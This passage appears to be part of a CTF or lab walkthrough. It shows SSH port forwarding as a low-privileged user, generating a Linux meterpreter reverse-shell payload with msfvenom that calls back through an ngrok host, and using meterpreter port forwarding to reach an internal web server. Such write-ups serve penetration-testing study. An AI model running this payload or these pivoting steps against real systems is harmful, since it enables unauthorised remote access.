 We have port 80 running locally and mysql port also dns port now let port forward using SSH.

```
ssh -L 8080:localhost:80 lowprivuser@193.37.212.211
```

![image](https://user-images.githubusercontent.com/69868171/130949150-b78222e4-15d0-4720-8ddb-65fe06ece995.png)

Accessing `localhost:8080`

![image](https://user-images.githubusercontent.com/69868171/130950252-26fc6d72-f2a7-40fb-860b-bb04bf3120b0.png)

But i have no idea why am having problem using the SSH port fowarding let transfer it man i hate using Metasploit.

### Generating Payload With Msfvenom 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=10969 -f elf > shell.elf
```

NOTE:- i will be using ngrok to recieve back connection actually it pretty cool you should try it.

![image](https://user-images.githubusercontent.com/69868171/130972937-40df2fd5-2085-4e5b-b24e-40cf4a1be1db.png)

Seems we have generate our payload and our listener is ready on msfconsole.

![image](https://user-images.githubusercontent.com/69868171/130973228-ef4cad67-b880-483d-9512-835273a7b328.png)

NOTE:- you need to transfer your payload to the target also to execute it.

![image](https://user-images.githubusercontent.com/69868171/130973544-86fbd880-8b75-4dd3-bb07-ca4f1293a1b4.png)

Checking Our listener and boom a Meterpreter session 1 opened.

![image](https://user-images.githubusercontent.com/69868171/130974822-8c1fb403-a723-459a-bac9-a90265672878.png)

```
portfwd add -l 80 -p 80 -r 127.0.0.1
```

Port Forwarding i know you know.

![image](https://user-images.githubusercontent.com/69868171/130978479-ae8c8c25-f79a-4b9b-a652-a33993cef73c.png)

Now accessing the webserver on our localhost.

![image](https://user-images.githubusercontent.com/69868171/130978505-512f52cf-ed44-4ec9-ae9f-e1e0190373f4.png)

Now let try and create account.

![image](https://user-images.githubusercontent.com/69868171/130978665-dbbe5106-a5e5-4a29-9791-7d0b370e7714.png)

We are in.

![image](https://user-images.githubusercontent.com/69868171/130978730-eaabf704-8358-44c6-bb38-a900a1915a2f.png)

